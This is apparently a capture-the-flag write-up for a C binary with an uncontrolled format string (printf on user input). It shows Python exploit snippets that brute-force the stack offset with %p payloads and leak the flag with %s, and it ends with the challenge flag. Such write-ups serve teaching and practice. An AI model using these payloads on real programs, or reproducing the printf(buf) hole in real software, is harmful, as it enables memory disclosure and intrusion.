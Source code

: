 ## Vulnerability Explanation

The binary uses an uncontrolled format string in this line:

```c
read(0, buf, 16);
printf(buf);
```

Since buf comes directly from user input, printf treats it as its format string. This allows us to:
Leak memory using %p or %s specifiers at arbitrary stack offsets.

## Exploitation Steps

1- Leak the flag buffer addressThe program prints:
`Your flag at 0x55...`

2- We parse that %p output to get the pointer flag_addr where the flag string is stored.

3- Discover the correct format-parameter offset inside the loop, it repeatedly prompts:
`echo <input>`

We send payloads like `%1$p, %2$p, … ` to find at which stack index the flag_addr appears. For each i:

```py
r.sendlineafter(b"echo ", f"%{i}$p".encode())
leak = r.recvline().strip()
if int(leak,16) == int(flag_addr, 16): break
```

Read the flag string once the correct offset is found, we send:

```py
payload = f"%{offset}$s".encode()
r.sendlineafter(b"echo ", payload)
flag = r.recvline()
```

%s interprets the stack value at offset as a pointer and prints the null-terminated string at that address (the flag).

### Flag: ghctf{m33t*f0rm4t*$tr1ng_vuln3r4b1lity}
